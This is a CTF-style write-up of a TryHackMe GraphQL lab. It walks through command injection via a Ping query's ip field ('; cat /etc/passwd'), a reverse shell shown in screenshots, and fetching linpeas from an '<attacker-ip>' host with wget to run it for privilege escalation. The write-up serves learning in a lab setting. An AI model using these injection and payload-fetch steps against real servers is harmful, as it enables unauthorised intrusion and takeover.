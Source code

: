 ```yaml
---
title: Using GraphQL Maliciously
published: true
---
```

Hey Hackers, Today's article will be about GraphQL Lab by tryhackme. Before we get started with the writeup, let's just get to know what is GraphQL and how we can exploit it :D
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/Graphql_logo.png"/>
</p>

**What is GraphQL?**   
GraphQL is a query language that allows to access data from the database via single API endpoint. As compared to REST API, where there are seperate endpoint for each calling the user makes. With GraphQL, we only need one endpoint to access all data.   
There are two operations in GraphQL API, they are: -   
1. Query   
2. Mutation   

Query is used to read data while mutation is used to modify data. You can learn more about GraphQL at this link ```https://graphql.org```   

Well now you know what GraphQL, lets' get started.   

Start up the machine      
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/1_start_machine.png"/>   
</p>  

After starting the machine, we need to perform some enumeratation   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/2_nmap.png"/>
</p>  
   
By using, nmap we got to know port 80 is open. Let's check what is on port 80.   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/3_open_port_80.png"/>
</p>  

On port 80, we found that Graphiql interface is enabled, thus allowing us to run graphql query. We wrote the graphql query in the interface in order to know what queries are available   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/4_schema_fields.png"/>
</p>

From the screenshot above, the only query that was interesting was Ping Query
The reason Ping query is interesting is because it can be used to create remote code execution and takeover the server :D   
Let's check what fields are available for the query   
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/5_examining_ping_fields.png" />
</p>   
There are two availble fields that are being used those are ```ip``` & ```output```   
Let's give it a test of how it works. The query that i injected is: -   
```{   
   Ping(ip:"127.0.0.1"){   
     ip   
     output   
  }   
}```      
We get the output that it makes the call to the localhost.   
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/6_Testing_ping_field.png" />
</p>   
let's try to break the query by inserting a semicolon and check if we can read the passwd file since the backend is a linux server running.The payload being used in the query is : -    
```{   
   Ping(ip:"; cat /etc/passwd"){   
     ip   
     output   
  }   
}```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/7_etc_passwd.png">
</p>   
We are able to read the passwd file. That is a good sign, let's start making our reverse shell and get an rce :p   
Let's open our ncat connection and start working on our payload.   
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/8_ncat_listener.png">
</p>   
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/9_reverse_shell.png">
</p>      

Reverse shell got executed and we got a remote code execution. Thus, compromising the server    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/10_server_hacked.png">
</p>   
Now we got a reverse shell, we need to now escalate our privileges to become root. Lets send our linpeas script to the compromised server to check what abnomalies can be exploited to become root. We run our server where our linpeas is located.    
```python3 -m http.server```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/11_opening_server_for_linpeas.png">
</p>    
Now on the victim server we will download linpeas script being hosted on my server. The following is the command for downloading the script using wget: -    
```wget http://<attacker-ip>:8000/linpeas.sh```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/12_installing_linpeas.png">    
</p>    
once linpeas script is downloaded in the victim machine, we will make the file executable and run the script. The following are the commands.    
```chmod + x linpeas.sh```    
```./linpeas.sh```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/13_running_linpeas.png">
</p>
 
